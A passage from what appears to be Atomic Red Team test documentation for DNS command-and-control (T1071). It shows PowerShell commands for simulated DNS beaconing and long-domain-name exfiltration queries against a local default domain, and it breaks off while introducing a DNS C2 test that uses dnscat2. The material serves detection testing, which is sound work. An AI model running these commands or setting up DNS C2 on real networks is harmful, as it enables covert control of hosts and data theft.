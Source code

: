 #### Attack Commands: Run with `powershell`!

```powershell
Set-Location $PathToAtomicsFolder
.\T1071\src\T1071-dns-beacon.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type} -C2Interval #{c2_interval} -C2Jitter #{c2_jitter} -RunTime #{runtime}
```

<br/>
<br/>

## Atomic Test #6 - DNS Long Domain Query

This test simulates an infected host returning data to a command and control server using long domain names.
The simulation involves sending DNS queries that gradually increase in length until reaching the maximum length. The
intent is to test the effectiveness of detection of DNS queries for long domain names over a set threshold.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | Default domain to simulate against | string | 127.0.0.1.xip.io|
| subdomain | Subdomain prepended to the domain name (should be 63 characters to test maximum length) | string | atomicredteamatomicredteamatomicredteamatomicredteamatomicredte|
| query_type | DNS query type | string | TXT|

#### Attack Commands: Run with `powershell`!

```powershell
Set-Location $PathToAtomicsFolder
.\T1071\src\T1071-dns-domain-length.ps1 -Domain #{domain} -Subdomain #{subdomain} -QueryType #{query_type}
```

<br/>
<br/>

## Atomic Test #7 - DNS C2

This will attempt to start a C2 session using the DNS protocol. You will need to have a listener set up and create DNS
records prior to executing this command.
The following blogs have more information.
https://github.com/iagox86/dnscat2
https://github.com/lukebaggett/dnscat2-powershell

**Supported Platforms:** Windows

#### Inputs:
